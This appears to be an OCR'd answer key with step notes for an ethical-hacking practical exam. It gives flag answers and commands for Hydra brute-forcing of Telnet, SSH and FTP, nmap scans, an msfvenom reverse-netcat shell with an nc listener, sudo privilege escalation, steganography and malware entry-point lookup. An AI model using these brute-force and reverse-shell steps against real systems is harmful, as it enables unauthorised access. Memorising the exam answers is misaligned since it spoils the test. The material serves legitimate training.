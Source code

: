 Answer: F56C8p@
1. Use Hydra to break the password Telnet, login and access the file, and enter the flag.
2. Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server Task-7
3. Nmap -p 22,23,80,3389 192.168.0.0/24
4. sudo nmap -sS -sV -p- -O ipadd
5. telnet 192.168.0.19 80 and GET / HTTP/1.0
6. hydra -L user.txt -P pass.txt 192.168.0.1 ssh
7. hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.106 telnet
8. ssh ubuntu@192.168.0.1
9. telnet 192.168.0.1
10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine
after login paste now find . -name flag.txt
11. start listen nc -lnvp 444
12. password type
13. ls
14. find . -name NetworkPass.txt
15. cat /path/NetworkPass.txt
7.A forensic investigator has confiscated a computer from a suspect in a data leakage case. He found an image file,
MyTrip.jpg, stored in the Documents folder of the "EH Workstation – 2" machine. He suspects that some
confidential data is hidden in the image file. Analyse the image file and extract the sensitive data hidden in the file.
Enter the sensitive data, an eight-character alpha-numeric string, as the answer. Use "Imagination" if you are stuck.
Answer: N7#SePFn
1. openstego tool in 2019 or use stegonline for online
2. upload the file type password
3. type the flag
8.Exploit weak credentials used for FTP service on a Windows machine in the 192.168.0.0/24 subnet. Obtain the
file, Credential.txt, hosted on the FTP root, and enter its content as the answer.
Answer: hSP#6Csa
1. Nmap -p 21 192.168.0.0/24
2. Sudo nmap -sS -A -T4 ip/24
3. hydra -L user.txt -P pass.txt ftp://192.168.0.1
4. ftp 192.168.0.1 and type user name and password login
5. Ls and search for the credential.txt file using find . -name credential.txt.
9.You used shoulder surfing to identify the username and password of a user on the Ubuntu machine in the
192.168.0.0/24 network, that is, smith and L1nux123. Access the target machine, perform vertical privilege
escalation to that of a root user, and enter the content of the imroot.txt file as the answer.
Answer: CS@@g5tj
1. nmap -sV -p 22 192.168.0.0/24 and now see open port ip address and note down
2. ssh smith@192.168.0.1 and for password given L1nux123
3. sudo -i
4. cd /
5. find . -name imroot.txt
6. cat givenpath/imroot.txt
10.During an assignment, an incident responder has retained a suspicious executable file "die-another-day". Your
task as a malware analyst is to find the executable's Entry point (Address). The file is in the
C:\Users\Admin\Documents directory in the "EH Workstation – 2" machines.
Answer: 0041e768
1. Analyze ELF Executable File using Detect It Easy (DIE)
2. Open manuals go malware analysis folder, static malware analysis folder and packaging and officiation
folder then you can DIE folder.
3. Run the die.exe file in windows, upload the target file then click open now in scanned all now click on file
info there you can see the entry point address.
4. Find the Portable Executable (PE) Information of a Malware Executable File